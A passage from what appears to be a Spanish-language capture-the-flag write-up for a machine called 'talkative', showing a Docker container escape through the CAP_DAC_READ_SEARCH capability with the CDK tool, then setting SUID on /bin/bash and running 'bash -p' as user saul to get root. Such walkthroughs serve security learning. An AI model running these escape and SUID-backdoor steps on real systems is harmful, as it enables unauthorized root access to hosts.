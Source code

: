 O explotar un fallo en esa Capability que nos podemos traer el sistema entero de la maquina real, haciendo '/etc/host /' nos permite acceder desde el contenedor como root con un pequeño fallo visual que es el nombre del hostname.

```ruby
> root@c150397ccd63:~# ./cdk run cap-dac-read-search /etc/hosts /
Running with target: /, ref: /etc/hosts
executing command(/bin/bash)...
> root@c150397ccd63:/#
```

Y por magia del hacking estamos en la máquina real como root aunque no lo parezca, debido a que la Capability ejecuta 'chdir' como el host es root en la raíz '/' y nos da una consola interactiva desde Bash
 
Para asegurarnos que estamos en la máquina real le asignamos privilegio SUID a la bash para ganar acceso desde saul


```ruby
> root@c150397ccd63:/# chmod u+s /bin/bash

```

Y ahora con saul nos podemos ejecutar la bash -p para que nos de la bash como el propietario.


```ruby
> saul@talkative:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
> saul@talkative:~$ bash -p
> bash-5.0# whoami
root

```

